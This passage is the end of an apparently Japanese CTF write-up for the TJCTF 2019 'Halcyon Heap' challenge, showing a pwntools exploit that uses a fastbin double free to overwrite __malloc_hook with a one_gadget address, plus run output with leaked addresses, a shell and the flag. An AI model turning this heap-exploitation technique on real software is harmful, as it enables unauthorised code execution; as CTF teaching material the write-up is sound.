 ```python
i = create_deet(0x68, "")
j = create_deet(0x68, "")
delete_deet(i)
delete_deet(j)
delete_deet(i)
k = create_deet(0x68, p64(LIBC_BASE + libc.symbols["__malloc_hook"] - 0x13))
l = create_deet(0x68, "")
m = create_deet(0x68, "")
ONE_GADGET = LIBC_BASE + 0xf1147
n = create_deet(0x68, "\x00" * 0x3 + p64(ONE_GADGET))
print "[*] シェルをスポーン中 = %s" % (hex(ONE_GADGET))

p.sendlineafter(">", "1\n1\n")
p.interactive()
```

```
$ ./exploit.py 
[*] '/ctf/TJCTF2019/Binary/Halcyon_Heap/halcyon_heap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/TJCTF2019/Binary/Halcyon_Heap/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/ctf/TJCTF2019/Binary/Halcyon_Heap/halcyon_heap': pid 2017
00000000  00 10 73 bd  d5 55 00 00  00 00 00 00  00 00 00 00  │··s·│·U··│····│····│
00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000020
[*] ヒープ先頭アドレス = 0x55d5bd731000
00000000  78 0b e9 b1  b1 7f 00 00  78 0b e9 b1  b1 7f 00 00  │x···│····│x···│····│
00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000020
[*] LIBC先頭アドレス = 0x7fb1b1acc000
[*] シェルをスポーン中 = 0x7fb1b1bbd147
[*] Switching to interactive mode
$ cat flag.txt
tjctf{d0uble_deets_0r_doubl3_free?}
$
```

お疲れ様でした ( ^^) _旦~~

以上、Halcyon Heapの解法でした。
最後まで読んで頂き、ありがとうございました！

